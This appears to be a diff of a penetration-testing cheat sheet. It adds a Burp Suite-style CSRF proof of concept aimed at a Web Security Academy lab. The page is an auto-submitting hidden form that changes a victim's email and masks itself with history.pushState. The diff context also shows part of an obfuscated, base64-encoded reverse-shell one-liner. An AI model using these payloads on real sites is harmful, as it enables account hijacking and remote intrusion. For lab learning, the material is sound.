

Before and after one commit to bin3xish477/cybersecurity, a Markdown page: CheatSheets/pentest-cheat-sheet.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Adds Burp Suite's cool XSRF PoC.

````diff
--- a/CheatSheets/pentest-cheat-sheet.md
+++ b/CheatSheets/pentest-cheat-sheet.md
@@ -1861,3 +1861,23 @@ bash${IFS}<${IFS}<(base64${IFS}-d${IFS}<${IFS}<(echo${IFS}YmFzaCAtaSAgPiYgIC9kZX
   - `readObject`, `readObjectNoData`, `readResolve` or `readExternal`
   - `ObjectInputStream.readUnshared`
   - Any class that implements the `Serializable` interface.
+
+### Burp Suite's XSRF PoC
+- the `history.pushState`, from my understanding, is pretty much adding an entry to the history that points the vulnerable sites root (`/`) so that the victim wouldn't see an error or retry to submit the same request when pressing the back button!
+
+```html
+<html>
+  <body>
+    <form action="https://0aea002d03121c0d83d0d95c00890028.web-security-academy.net/my-account/change-email">
+      <input type="hidden" name="email" value="evil@normal-user.net" />
+      <input type="hidden" name="csrf" value="jX98F5QoE4uS71nwAF5" />
+      <input type="submit" value="Submit request" />
+    </form>
+    <script>
+      <!-- this is clever -->
+      history.pushState('', '', '/');
+      document.forms[0].submit();
+    </script>
+  </body>
+</html>
+```
````
